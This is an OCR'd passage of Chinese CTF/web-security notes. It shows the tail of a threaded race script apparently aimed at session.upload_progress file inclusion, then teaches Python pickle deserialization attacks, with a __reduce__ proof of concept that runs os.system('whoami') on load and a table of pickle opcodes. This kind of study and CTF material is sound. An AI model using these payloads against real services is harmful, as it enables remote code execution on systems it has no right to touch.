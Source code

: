 ```python
        else:
            print("[+++++++++++++]retry")
if __name__=="__main__":
    event=threading.Event()
    with requests.session() as session:
        for i in xrange(1,30): 
            threading.Thread(target=write,args=(session,)).start()

        for i in xrange(1,30):
            threading.Thread(target=read,args=(session,)).start()
    event.set()
```

##### 参考文章

[利用session.upload_progress进行文件包含和反序列化渗透](https://www.freebuf.com/vuls/202819.html)
 [session.upload_progress反序列化学习](https://blog.csdn.net/qq_61237064/article/details/123405767)

#### Python反序列化

##### pickle

###### 漏洞原理

通过重写类的 `object.__reduce__()` 函数，使之在被实例化时按照重写的方式进行

###### 攻击方式

###### 重写`__reduce__()`

该接口当前定义如下示例，`__reduce__()` 方法不带任何参数，并且应返回字符串或最好返回一个(callable, ([para1,para2…])[,…]) 的元组（返回的对象通常称为“reduce 值”）

```python
import pickle
import os
 
class test():
    def __reduce__(self):
        command=r"whoami"
        return (os.system,(command,))

opcode=pickle.dumps(test())
print(opcode)
pickle.loads(opcode)
```

但是这样只能执行一个函数，在CTF中，很多时候需要一次执行多个函数或一次进行多个指令，此时就不能光用 `__reduce__ `来解决问题（reduce一次只能执行一个函数，当exec被禁用时，就不能一次执行多条指令了，需要使用到`opcode`这个更为底层的实现，由于版本0的`pickle opcode`更容易为人所理解，以下都以版本0的`opcode`为例子

###### opcode

| opcode | 描述                                                         | 具体写法                                          | 栈上的变化                                                   | memo上的变化 |
| ------ | ------------------------------------------------------------ | ------------------------------------------------- | ------------------------------------------------------------ | ------------ |
| c      | 获取一个全局对象或import一个模块（注：会调用import语句，能够引入新的包 | c[module]\n[instance]\n                           | 获得的对象入栈                                               | 无           |
| o      | 寻找栈中的上一个MARK，以之间的第一个数据（必须为函数）为callable，第二个到第n个数据为参数，执行该函数（或实例化一个对象） | o                                                 | 这个过程中涉及到的数据都出栈，函数的返回值（或生成的对象）入栈 | 无           |
| i      | 相当于c和o的组合，先获取一个全局函数，然后寻找栈中的上一个MARK，并组合之间的数据为元组，以该元组为参数执行全局函数（或实例化一个对象） | i[module]\n[callable]\n                           | 这个过程中涉及到的数据都出栈，函数返回值（或生成的对象）入栈 | 无           |
| N      | 实例化一个None                                               | N                                                 | 获得的对象入栈                                               | 无           |
| S      | 实例化一个字符串对象                                         | S’xxx’\n（也可以使用双引号、'等python字符串形式） | 获得的对象入栈                                               | 无           |
| V      | 实例化一个UNICODE字符串对象                                  | Vxxx\n                                            | 获得的对象入栈                                               | 无           |
| I      | 实例化一个int对象                                            | Ixxx\n                                            | 获得的对象入栈                                               | 无           |
| F      | 实例化一个float对象                                          | Fx.x\n                                            | 获得的对象入栈                                               | 无           |